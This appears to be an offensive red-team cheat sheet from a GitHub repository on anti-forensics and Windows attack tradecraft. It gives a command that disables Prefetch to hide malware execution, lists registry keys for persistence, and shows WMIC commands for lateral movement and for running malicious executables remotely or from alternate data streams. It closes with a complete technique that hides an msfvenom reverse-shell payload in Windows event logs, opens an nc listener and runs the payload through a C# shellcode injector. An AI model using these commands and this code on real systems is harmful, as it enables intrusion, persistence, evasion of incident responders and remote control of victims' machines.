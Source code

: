 # :fu: Anti-Forensics

## Disabling Prefetch:

What are Prefetch Files? Prefetch files are great artifacts for forensic investigators trying to analyze applications that have been run on a system. Windows creates a prefetch file when an application is run from a particular location for the very first time. This is used to help speed up the loading of applications. But if we disable Prefetch files, we can hide execution patterns of our malware to hinder incident response.

The following command requires Administrator privileges, but disables Prefetch within the registry. While this tactic may appear anomalous to network defenders such as clearing Security Event Logs, it will obfuscate the malware's execution history.

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /f /d 0
```

## Windows AutoStart Persistence Locations:

Locations for automatically starting at system boot or user logon

```
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Run
NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Windows Debug Tools-%LOCALAPPDATA%\
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
software\microsoft\windows\currentversion\run\microsoft windows html help
%AppData%\Microsoft\Windows\Start Menu\Programs\Startup
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\IAStorD
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

## WMIC Tricks and Tips:

Enumeration

```
wmic environment list
wmic useraccount get /ALL /format:csv
wmic process get caption,executablepath,commandline /format:csv
wmic qfe get description,installedOn /format:csv
# PowerShell
Invoke-WmiMethod -Path #{new_class} -Name create -ArgumentList #{process_to_execute}
```

Lateral Movement

```
wmic /node:<IP> /user:administrator process call create "cmd.exe /c <backdoor>"
```

Uninstall Program

```
wmic /node:"#{node}" product where "name like '#{product}%%'" call uninstall
```

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\notsus.txt:malicious.exe"
```

Execute malicious.exe on a remote system

```
wmic.exe /node:"192.168.0.99" process call create "malicious.exe"
```

## Offline Microsoft Azure Active Directory Harvesting with PowerShell:

This script demonstrates how to interact with Microsoft Azure Active Directory via PowerShell.  You will need an Azure AD account first, which is free: http://azure.microsoft.com/en-us/services/active-directory/

```
# Import the Azure AD PowerShell module:
Import-Module -Name Azure
# List the cmdlets provided by the module (750+):
Get-Command -Module Azure 
Add-AzureAccount
Get-AzureAccount
Get-AzureSubscription

# Import the Azure AD PowerShell module for MSOnline:
Import-Module -Name MSOnline
# List the cmdlets provided by the MSOnline module:
Get-Command -Module MSOnline

# Connect and authenticate to Azure AD, where your username will
# be similar to '<yourusername>@<yourdomain>.onmicrosoft.com':
$creds = Get-Credential
Connect-MsolService -Credential $creds


# Get subscriber company contact information:
Get-MsolCompanyInformation


# Get subscription and license information:
Get-MsolSubscription | Format-List *
Get-MsolAccountSku   | Format-List *


# Get Azure AD users:
Get-MsolUser


# Get list of Azure AD management roles:
Get-MsolRole


# Show the members of each management role:
Get-MsolRole | ForEach { "`n`n" ; "-" * 30 ; $_.Name ; "-" * 30 ; Get-MsolRoleMember -RoleObjectId $_.ObjectId | ForEach { $_.DisplayName } }
```

## PowerShell:

Pull Windows Defender event logs 1116 (malware detected) and 1117 (malware blocked)
from a saved evtx file:

```
PS C:\> Get-WinEvent -FilterHashtable @{path="WindowsDefender.evtx";id=1116,1117}
```
Check for installed antivirus:

```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

## Execute Payloads Utilizing Windows Event Logs:

Create variable to contain payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex
```

```
$msf = '<Insert Shellcode as Hex Literal String'
```

Convert Payload variable to hex byte array:

```
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')
```

Create new event log entry:

```
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener:

```
nc -nvlp 1337
```

Execute code injector utilizing this code:

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace EventLogsForRedTeams
{
    class Program
    { 

    [DllImport("kernel32.dll")]
    public static extern Boolean VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, UInt32 flNewProtect,
            out UInt32 lpflOldProtect);

    private delegate IntPtr ptrShellCode();
    static void Main(string[] args)
    {
        // Create a new EventLog object.
        EventLog theEventLog1 = new EventLog();

        theEventLog1.Log = "Key Management Service";

        // Obtain the Log Entries of the Event Log
        EventLogEntryCollection myEventLogEntryCollection = theEventLog1.Entries;

        byte[] data_array = myEventLogEntryCollection[0].Data;

        Console.WriteLine("*** Found Payload in " + theEventLog1.Log + " ***");
        Console.WriteLine("");
        Console.WriteLine("*** Injecting Payload ***");

        // inject the payload
        GCHandle SCHandle = GCHandle.Alloc(data_array, GCHandleType.Pinned);
        IntPtr SCPointer = SCHandle.AddrOfPinnedObject();
        uint flOldProtect;

        if (VirtualProtect(SCPointer, (UIntPtr)data_array.Length, 0x40, out flOldProtect))
        {
            ptrShellCode sc = (ptrShellCode)Marshal.GetDelegateForFunctionPointer(SCPointer, typeof(ptrShellCode));
            sc();
        }
    }
}
}
```

@BHIS 
Source: https://github.com/roobixx/EventLogForRedTeams

